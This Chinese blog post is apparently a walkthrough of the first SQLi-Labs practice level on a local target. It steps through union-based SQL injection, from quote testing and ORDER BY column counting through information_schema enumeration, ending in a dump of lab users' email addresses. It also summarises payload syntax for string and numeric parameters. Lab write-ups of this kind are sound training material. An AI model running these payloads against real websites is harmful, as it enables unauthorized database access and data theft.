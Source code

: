 +++
date = "2019-08-20T15:56:26+08:00"
categories = ["靶场"]
tags = ["SQL_Lib","SQL注入"]

title = "Sql-Lib第一关"
description = "Union注入"
images = []

+++

- 漏洞类型：GET型 - 基于报错 - 单引号 - 字符型注入
- 目标网址（本地靶场）：http://www.sqllib.com/less-1/?id=
- 目标：获取网站用户的邮箱

---

# ① 访问网址，测试是否存在SQL注入

## 正常访问

> http://www.sqllib.com/less-1/?id=1

**目前页面上在有两处显示信息**

- Your Login name：Dumb
- Your Password：Dumb

![正常访问](https://shop.io.mi-img.com/app/shop/img?id=shop_a26a65b1a5f6c9c9e58bea52a6ef23a9.jpeg)




## 异常测试

> ① http://www.sqllib.com/less-1/?id=1'
>
> ② http://www.sqllib.com/less-1/?id=1' and '1
>
> ... ...

![单引号测试](https://shop.io.mi-img.com/app/shop/img?id=shop_c3a9aef6acd3d846103f6df100f2d83f.jpeg)

![布尔测试](https://shop.io.mi-img.com/app/shop/img?id=shop_1e3aa4d02d04dc6958d5b75d0b2ad100.jpeg)

## 报错信息

**报错信息中，没有对我输入的单引号进行转义，传入的 id 参数有可能是字符型，后面注入时要尝试闭合单引号**

> You have an error in your SQL syntax; check the manual that corresponds to your MySQL server version for the right syntax to use near ''1'' LIMIT 0,1'



# ② 查询当前网页，使用的表名，包含的字段数量

## 输入 order by 1~99，直到页面显示异常

```
order by 3--+
```

![猜解字段数量](https://shop.io.mi-img.com/app/shop/img?id=shop_107592566ce5f543eaf8baf69c1a1c83.jpeg)

```
order by 4--+
```

![猜解字段数量_2](https://shop.io.mi-img.com/app/shop/img?id=shop_3cc11285380a40d3248f77d5f96906b2.jpeg)



# ③ 判断查询的信息，在页面显示的位置

```
union select 1,2,3
```

![判断信息回显位置](https://shop.io.mi-img.com/app/shop/img?id=shop_13dc1b06bf1362d4b74180b221c43ea3.jpeg)

#### **如图，最终确认，2，3是信息回显的位置，后面的语句中，"1" 最好替换为 "null"**<br>

#### **避免数据库出现异常。**


# ④ 查询数据库名、表名

```
union select null,database(),version()--+
```

![查询数据库、以及版本](https://shop.io.mi-img.com/app/shop/img?id=shop_30a9b12ff751baa6b8b5783c81524727.jpeg)



```
union select null,table_schema,table_name from information_schema.tables where table_schema='security' limit 0,1--+
```

![查询库中包含的表名](https://shop.io.mi-img.com/app/shop/img?id=shop_1ac99de1700468225c1e263a91fe3bc4.jpeg)

## **改变 limit m, n** 中的 m, 从表中一行行查询 0~99

![查询到users表](https://shop.io.mi-img.com/app/shop/img?id=shop_ef02ae9ffeb0aec4f05198a68b4b0d8d.jpeg)

# ⑤ 查询 "security" 库中的 "emails" 表所包含的字段名

```
union select null,table_name,column_name from information_schema.columns where table_schema='security' and table_name='emails' limit 0,1--+
```

![第一个字段](https://shop.io.mi-img.com/app/shop/img?id=shop_0fdca406df650b8055ffa6881da1e01f.jpeg)

![第二个字段](https://shop.io.mi-img.com/app/shop/img?id=shop_c262c1a882641a41430113d306dce9ed.jpeg)

# ⑥ 获取用户邮箱信息

```
union select null,id,email_id from security.emails limit 0,1--+
```

![查询用户邮箱](https://shop.io.mi-img.com/app/shop/img?id=shop_320a64aeb53beb4d897a85b35bf38ab5.jpeg)

![查询用户2](https://shop.io.mi-img.com/app/shop/img?id=shop_6ee464d11e87288a2f29dd7922fdd9fd.jpeg)

## 用户邮箱

- Dumb@dhakkan.com
- Angel@ilovenu.com

## 总结

首先，要判断出从 id 传入的参数，是字符串，还是数字(int)型

- 字符型要用 ' ，"，--+，#等注释，闭合单引号，或者注释对查询无用的 MySql 语句

  

```
id=' union select ... --+'
```

- 数字型可以用 "-" 符号，布尔表达式

  
```
id=-1 union select ...
id=1 and 1=2 union select ...
```

然后，通过常见的报错信息，可以大致判断注入的类型（看运气，实战大多盲注）

最后，手工输入需要耐心和细心，有时候注入的语句没有效果

很有可能是手误敲错字母，漏掉了单引号之类的... ...

有不足和错误之处，欢迎留言讨论~